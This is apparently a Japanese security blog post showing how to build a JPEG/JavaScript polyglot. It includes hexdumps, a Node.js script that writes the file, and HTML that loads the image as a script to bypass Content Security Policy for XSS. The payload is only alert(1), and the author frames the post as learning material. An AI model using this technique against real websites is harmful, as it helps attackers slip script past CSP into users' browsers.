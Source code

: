 ```yaml
---
title: JPEG画像にJavaScriptのコードを埋め込んでみる
date: 2020-02-14
description: JPEG画像にJavaScriptのコードを埋め込んでみる
tags: ['セキュリティ']
---
```

JPEG画像にJavaScriptのコードを埋め込む手法が紹介されていたので試してみました。  
今回は次の画像に対してコードの埋め込んでみます。

![埋め込み画像](./donarudo.jpg)

# 注意

この記事は攻撃方法を知ることでセキュリティを学ぶことを前提としており、実験も仮想環境上で実行しています。  
決して外部サイトに対して実行しないようにしてください。

# 画像のバイナリを見てみる

今回試す方法は画像のバイナリを変更してコードを埋め込んでいます。  
そこで、最初は画像のバイナリを確認してみます。

```shell
$ hexdump -C donarudo.jpg | head -n 5
00000000  ff d8 ff e0 00 10 4a 46  49 46 00 01 01 00 00 01  |......JFIF......|
00000010  00 01 00 00 ff e1 00 6c  45 78 69 66 00 00 49 49  |.......lExif..II|
00000020  2a 00 08 00 00 00 03 00  31 01 02 00 07 00 00 00  |*.......1.......|
00000030  32 00 00 00 12 02 03 00  02 00 00 00 02 00 02 00  |2...............|
00000040  69 87 04 00 01 00 00 00  3a 00 00 00 00 00 00 00  |i.......:.......|

$ hexdump -C donarudo.jpg | tail -n 3
000038f0  99 e8 80 e7 8a 5a 68 a7  57 de a3 e7 02 8a 28 a6  |.....Zh.W.....(.|
00003900  01 45 14 50 01 45 14 50  07 ff d9                 |.E.P.E.P...|
0000390b
```

先頭の2バイト **FF D8** はSOIマーカーと呼ばれ、JPEGフォーマットの開始を表しています。  
次の2バイト **FF E0** はセグメントの種類を表しており、次の2バイトの **00 10** がセグメントの長さを示していて
10進数で 16 なので、**00 10** を含む16バイト分（**FF E1** の手前まで) がセグメントであるのが分かります。  
最後の **FF D9** はEOIマーカーと呼ばれ、JPEGフォーマットの終了を表しています。

今回はこのセグメント内に `alert(1)` のjsコードを埋め込んでいきます。16進数のバイナリ表現は次のように取得できます。

```javascript
$ node
> 'alert(1);'.split('').map(i => i.charCodeAt(0).toString(16)).join('')
'616c6572742831293b'
```

# jsコードを埋め込む

↓がバイナリを変更して、jsコードを埋め込んでみた様子です。  

```shell
$ hexdump -C donarudo_01.jpg | head -n 5
00000000  ff d8 ff e0 00 10 4a 46  49 46 00 61 6c 65 72 74  |......JFIF.alert|
00000010  28 31 29 00 ff e1 00 6c  45 78 69 66 00 00 49 49  |(1)....lExif..II|
00000020  2a 00 08 00 00 00 03 00  31 01 02 00 07 00 00 00  |*.......1.......|
00000030  32 00 00 00 12 02 03 00  02 00 00 00 02 00 02 00  |2...............|
00000040  69 87 04 00 01 00 00 00  3a 00 00 00 00 00 00 00  |i.......:.......|
```

このままjsのコードとして読み込んでも、無効な文字列を含んでおりjsの読み込みでエラーが発生します。  
jsは `/*....*/` で囲む事でコメントとしてコードを無視することが出来るので、それを利用して画像データの部分をコメントアウトして、jsとして有効なコードであるように偽装する事が可能です。

```shell
$ hexdump -C bad-donarudo.jpg | head -n 6
00000000  ff d8 ff e0 2f 2a 4a 46  49 46 00 01 01 00 00 01  |..../*JFIF......|
00000010  00 01 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000020  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00002f20  2a 2f 3d 61 6c 65 72 74  28 31 29 3b 2f 2a ff e1  |*/=alert(1);/*..|
00002f30  00 6c 45 78 69 66 00 00  49 49 2a 00 08 00 00 00  |.lExif..II*.....|

$ hexdump -C bad-donarudo.jpg | tail -n 3
00006810  68 a7 57 de a3 e7 02 8a  28 a6 01 45 14 50 01 45  |h.W.....(..E.P.E|
00006820  14 50 07 ff d9 2a 2f ff  d9                       |.P...*/..|
00006829
```

実際にコメントアウトの対応をしてjsコードを埋め込んだ画像のバイナリがこんな感じです。

先頭の4バイト **FF D8 FF E0** は有効な非ASCII文字のJavaScript変数になります。次の **2F 2A** がセグメントの始まりで、セグメントの部分を `/*.../*` でコメントアウトしています。 次に、`=` を差し込み変数代入とすることで、先頭の4バイトを変数として扱い有効な文字列としています。続いて `alert(1);` を実行コードとして差し込んでいます。その後、`/*...*/` で残りのJEPG画像データの部分をコメントアウトしています。

また、セグメント開始の **2F 2A** はセグメント長を表現しており、10進数で 12074 なので、セグメント長を合わせるために、12074 - 16 - 14 = 12044バイト をヌルバイト（**00**）で埋めています。

本来のセグメント部分:  
`2F 2A 4A 46 49 46 00 01 01 00 00 01 00 00 00 10 00 01` の16バイト  

埋め込みjsコード部分:  
`*/alert(1);/*` => `2a2f3d616c6572742831293b2f2a` 14バイト

有効なjsコードの部分だけを表現すると次のようになります。

```js
<有効な非アスキー文字>=alert(1);
```

このjsコードの埋め込みは次のプログラムで実現できます。

```js
const fs = require('fs');

const image = fs.readFileSync('donarudo.jpg');
const hex = image.toString('hex');
const soi = hex.substr(0,8);
const commentStart = '2f2a'; // /*
const header = hex.substr(12,28);
const nullBytes = Array(12044).fill('00').join('');
const code = `*/=alert(1);/*`.split('').map(e => e.charCodeAt(0).toString(16)).join('');
const payload = hex.substr(40, hex.length - 4);
const commentEnd = '2a2f'; // */
const eoi = hex.substr(hex.length - 4);
const injectedJsJpeg = soi + commentStart + header + nullBytes + code + payload + commentEnd + eoi;
const hexBinary = new Buffer(injectedJsJpeg, 'hex');

fs.writeFileSync('bad-donarudo.jpg', hexBinary);
```

# JPEG画像を読み込んでみる

jsを埋め込んだ画像を読み込んでみます。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
</head>
<body>
    <img src="bad-donarudo.jpg"/>
    <script src="bad-donarudo.jpg"></script>
</body>
</html>
```

![JavaScriptを埋め込んだ画像](./donarudo-xss.png)

正常に画像は表示されて、jsファイルとしても読み込む事ができました！  
Chromeでは対策済みでアラートが表示されず、IE11でアラートの表示が確認できました。

実現可能なブラウザは限られますが、日本国内ではまだまだIE11の利用ユーザーは多いので無視できない手法です。

# 攻撃の使われ方

これで簡単にXSSが出来るのかなと思ったのですが、<img>タグで読み込んだ場合はあくまで画像として処理されるので、コードが実行されることはありません。  
あくまで、攻撃対象のサイト上で \<script>タグで画像を読み込ませる必要があります。  

ではこの手法がどのような攻撃に利用されるかというと、**[コンテンツセキュリティポリシー（CSP）](https://developer.mozilla.org/ja/docs/Web/HTTP/CSP)のバイパス** に利用されます。  
CSPが有効になっているWebサイトでは別ドメインからのjsファイルの読み込みやインラインスクリプトの実行がブロックされます。そのため、\<script>タグを埋め込む事ができてもXSSを防ぐ事が可能になります。

しかし、Webサイトに画像アップロードが機能があった場合に、jsコードを埋め込んだ画像をアップロードして、その画像を読み込むように\<script>タグを埋め込むめば、CSPのセキュリティをくぐり抜けてxssを実現することが可能になります。

```html
<!-- Webサーバーに配置されている自分がアップロードしたjsコードを埋め込んだJPEG画像 -->
<script src="/public/images/xss.jpg"></script>
```


最近はS3などにアップロードした画像が配置されるパターンが多く、その場合は画像読み込みがCSPのポリシー対象である外部ドメインとなるので、利用できる状況はかなり限定的なのかな？と思います。

# 参考文献
* [Hiding JavaScript in Picture Files for XSS](https://www.youtube.com/watch?v=memPcI94YGA)
* [Hiding JS in a JPEG header.](https://medium.com/@codedbrain/hiding-js-in-a-jpeg-header-454386f9e20)
* [Bypassing CSP using polyglot JPEGs](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs)
* [Content Security Policyについて語る](http://www.nowhere.co.jp/blog/archives/20190315-080010.html)
* [JPEGファイルの構造](https://hp.vector.co.jp/authors/VA032610/JPEGFormat/StructureOfJPEG.htm)
